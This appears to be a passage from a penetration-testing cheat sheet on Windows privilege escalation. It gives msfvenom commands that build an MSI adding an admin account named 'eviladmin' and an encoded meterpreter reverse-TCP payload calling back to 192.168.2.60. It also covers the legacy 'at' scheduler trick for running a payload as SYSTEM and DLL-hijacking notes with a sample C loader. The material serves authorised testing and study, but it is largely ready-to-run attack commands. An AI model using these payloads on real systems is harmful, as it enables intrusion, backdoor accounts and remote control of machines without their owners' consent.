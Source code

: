 Payload Generation:
```bat
msfvenom -f msi-nouac -p windows/adduser USER=eviladmin PASS=P4ssw0rd@ -o add_user.msi
```
```bat
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > malicious.msi
```

### Task Scheduler

- On Windows 2000, XP, and 2003 machines, scheduled tasks run as SYSTEM privileges.
- Works only on  Windows 2000, XP, or 2003
- Must have local administrator

```
> net start "Task Scheduler"
> time
> at 06:42 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
```

### DLL Hijacking (DLL preloading attack or a binary planting attack)

- https://github.com/Arvanaghi/Windows-DLL-Injector
- https://securityxploded.com/remote-dll-injector.php
- https://pentestlab.blog/2017/04/04/dll-injection/
- https://msdn.microsoft.com/en-us/library/windows/desktop/ff919712(v=vs.85).aspx
- Search order: https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx

```
When an application dynamically loads a dynamic-link library without specifying a fully qualified path name, Windows attempts to locate the DLL by searching a well-defined set of directories in a particular order, as described in Dynamic-Link Library Search Order.

The directory from which the application loaded
32-bit System directory (C:\Windows\System32)
16-bit System directory (C:\Windows\System)
Windows directory (C:\Windows)
The current working directory (CWD)
Directories in the PATH environment variable (system then user)
```

- Services running under SYSTEM does not search through user path environment.

Example:
```c
#include "stdafx.h"
#include "windows.h"
void _tmain(int argc, _TCHAR* argv[])
{
  LoadLibrary(L"hijackable.dll");
}
```
